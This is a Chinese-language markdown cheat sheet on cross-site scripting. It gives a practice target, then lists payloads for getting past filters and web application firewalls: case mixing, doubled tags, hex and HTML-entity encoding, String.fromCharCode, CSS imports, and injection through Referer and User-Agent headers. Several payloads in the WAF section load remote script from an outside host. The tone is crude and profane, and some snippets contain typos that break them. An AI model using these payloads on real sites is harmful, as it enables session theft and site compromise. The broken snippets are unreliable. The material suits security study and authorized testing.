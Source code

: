 # XSS
> 详细代码请转常用代码篇，有很多代码分析和实例，此篇仅供思路。
靶场：
http://demo.testfire.net/search.jsp?query=1



## **直接x他，x他🐎的！**

首先先打个`<a>,<b>`试试看，康康到底能不能输入一个框啊什么的，试试水对吧。在确定了可以在页面加入一个`<b>`或者一个`<a>`然后尝试后者：


就直接尝试xss语句，虽然90%不行，但是万一呢？对吧！

```
<script>alert('xss');</script>
```



## **如果有过滤**

输入：
```
< > ' " = ; 
```
字符查看一下，那些被过滤了，那些被转义了，那些被删除了。


## 首先 构造一个payload

首先一个`xss payload`基本有以下几部分组成

[TAG]填充标签img svg video button...
[ATTR]=Something 填充一些非必要的属性 src=1 xmlns="jp.pornhub.com/"(a君：`兄弟借一步说话`GKDGKD)

[EVENT]填充事件属性onerror onload...
[PAYLOAD]填充JavaScript代码alert(1) top.alert(1)...

大体可以理解为：
```html
<[TAG]    [ATTR]=  sth    [EVENT]   =   [PAYLOAD] />
 标签头    属性     事件   事件属性        代码
```



## **大小写混写，双写绕过**

当一些敏感标签，如`script,img`中间被截断或者删除，可以尝试大小写混写，或者双写绕过:
```
<sCrIpT><>
<Imimgg><>
```




## **尝试闭合标签**

输入没什么过滤，但是无法直接弹窗可以尝试闭合标签然后使xss生效
比如：
```
"> <script>alert(1);</script>
```

## **如何绕过**

### **16进制编码绕过**

将XSS语句经过16进制编码转换来绕过XSS的规则。

列:
```
<script>alert(1)</script>
```
可以转换为
```
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%78%73%73%22%29%3b%3c%2f%73%63%72%69%70%74%3e
```

## **绕过PHP自带的安全设置**

在php中设置为`magic_quotes_gpc=ON`中安全设置开启，开启后会吧一些特殊字符进行转换，比如：`把'(单引号)转化为：`\`,双引号`"`转换为：``\"``

> 我们可以通过javascript中的`String.fromCharCode`方法来绕过

可以输入为：
```
<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88,83, 83, 34, 41, 59)</script>
```





## **利用html标签属性值执行XSS**

很多HTML标记中的属性都支持JavaScript脚本，所以我反手给你个xss你怎么说？上号：
```
<img src = "http://58.221.227.52:82/functions/images/qysb/logo.png">
```
其中只要执行了js代码就可以弹窗，如果引用文件都可以绕过`<>`





## **使用空格，TAB，回车，js编码绕过**

如果过滤时对`JavaScript`进行了过滤，得益于JS代码的**优秀体制**(**该用谁心理有B数了8**)只需要对js做小小的操作即可绕过：
```
<img src= "java　　script:alert(‘xss‘);" width=100>
```
或者：
```
<img src= "javascript:  alert(/xss/);" width=100>
```

或者：
```
<a herf="javascr&#69pt:alert(1)">



```

## **利用CSS跨站解析**

大概就是去在文章引入的CSS中加入一串XSS代码，应为CSS不用嵌入到html中，可以直接从文件或其他地方进行引用。
`但是 浏览器之间不能通用`
```
<div style = "list-style-image:url(javascript:alert(‘xSS‘))">

<link rel = "stylesheet" href ="http://www.xxx.com/atack.css">

<style type=‘text/css‘>@import url(http://www.xxx.com/xss.css);</style>

<style>@import ‘javascript:alert(‘xss‘);‘</style>
```





## **利用字符编码**

利用16进制转换，或者ASCII表转换来进行xss
```
<script>eval("\61\6c\65......");<script>
```






## **尝试在请求包中输入值查看是否被带入数值**

在请求值中尝试加入referer值

```
Referer: aaaa" type="text" onclick="alert(1)"
```
尝试在User-Agent等值中输入值查看是否能够带入数值

```
user=" type="text" onclick="alert(1)"
```

## **构造payload(采用%0a绕过空格过滤)**

如果过滤了`script、/、与空格`
在url中直接加入`%0a`绕过空格过滤，解析出来不一样吗，火狐他不香吗？
```
http://127.0.0.1/xss/level16.php?keyword=<img%0asrc=1%0aonerror=alert(1)>
```












## **如果过滤了双引号和尖括号**

html`实体编码`来过滤尖括号和双引号也是属于编码绕过的一种，测试只有火狐可以实现(A君：谷歌你🐎死了)
```
http://IP/xss/level17.php?arg01=a&arg02=b onmouseover=alert(1)

```

当在url输入被过滤等因素后，可以尝试在输入框中加入`js代码`并使用js实体绕过:















**js实体编码**

javascrip&#x74;:alert(1) 十六进制
javascrip&#116;:alert(1) 十进制









## [**绕WAF**](https://xz.aliyun.com/t/6652)

当你兴致*勃勃* 输入了第一串代码`<b>`,欸？我日你妈 D盾，创宇盾拦截，百度云盾拦截。小逼崽子**D盾**三天之内祝你**心想事成！** 

> D盾还好，只是拦截，你还可以FUZZ,创宇盾直接给你ip封了，md我搞你还要准备几十个ip？

不常见标签

XSSfuzz生成器:https://github.com/NytroRST/XSSFuzzer/blob/master/fuzzer.html

```html
<details> <button> <select> <keygen> <textarea>等等
```

从网上收集的几个payload:
```html

<details open ontoggle=prompt(1)>
      <details open ontoggle=prompt(1)>
      <button onfocus=prompt(1) autofocus>
      <select autofocus onfocus=prompt(1)>

 <input autofocus onfocus=s=createElement("scriPt");body . appendChild(s);s.src="//xss.xx/1te">

 <keygen autofocus onfocus =s=createElement("scriPt" );body . appendchild(s);s. src="//xss.xx/1te">

<textarea autofocus onfocus=s=createElement("scriPt"); bady appendChild(s);s.src="//xss.xx/1te">

<video onkeyup=setTimeout`al\x65rt\x28/2/\x29```>

<svg src=1 onload=alert(1) />
<svg value=1 onload=alert(1) />
<video value=1 onerror=alert(1) />

```





